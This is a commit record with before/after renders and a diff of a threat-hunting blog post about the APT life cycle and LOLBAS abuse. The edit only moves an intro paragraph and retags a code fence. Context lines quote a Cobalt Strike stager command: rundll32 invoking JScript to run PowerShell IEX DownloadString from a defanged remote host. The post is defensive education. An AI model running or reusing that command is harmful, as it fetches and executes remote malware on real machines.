

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from _posts/2021-11-01-Hunting-for-evil.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2021-11-01-Hunting-for-evil.md

````diff
--- a/_posts/2021-11-01-Hunting-for-evil.md
+++ b/_posts/2021-11-01-Hunting-for-evil.md
@@ -4,15 +4,11 @@ layout: "post"
 ---
 
 __Threat__ __hunting__ - the act of aggressively intercepting, tracking and eliminating cyber adversaries as early as possible in the Cyber Kill Chain.
+To prevent, detect and resolve an APT, you must recognize its characteristics.
+Most APTs follow the same basic life cycle of infiltrating a network, expanding access and achieving the goal of the attack, which is most commonly stealing data by extracting it from the network.
 
 
 
-
-
-
-
-To prevent, detect and resolve an APT, you must recognize its characteristics.
-Most APTs follow the same basic life cycle of infiltrating a network, expanding access and achieving the goal of the attack, which is most commonly stealing data by extracting it from the network.
 
 - 1 In the first phase, usually referred to "Initial Access", advanced persistent threats often gain access through social engineering techniques. One indication of an APT is a phishing email that selectively targets high-level individuals like senior executives or technology leaders, often using information obtained from other team members that have already been compromised. Email attacks that target specific individuals are called “spear-phishing.”
 - 2 In the second phase, usually referred to "Lateral Movement" attackers insert malware into an organization’s network to move to the second phase, expansion. They move laterally to map the network and gather credentials such as account names and passwords in order to access critical business information.
@@ -97,7 +93,7 @@ Below some example of typical `LOLBAS` software abused by APT.
 In the case study presented below the threat actor uses `Cobalt Strike` beacon for their post-exploitation activities with a __PowerShell__ stager generated from the Cobalt Strike framework.
 The telemetry shows this attack launched by abusing `rundll32.exe` and the command line invoking __JScript__ code to download a web page and launch the initial __PowerShell__ stager.
 
-```javascript
+```js
 rundll32.exe javascript:\\..\\mshtml,RunHTMLApplication ;document.write();new%20ActiveXObject(WScript.Shell).Run(powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('hxxps://stjohnplece.co/lll/webax.js');
 ```
 
````
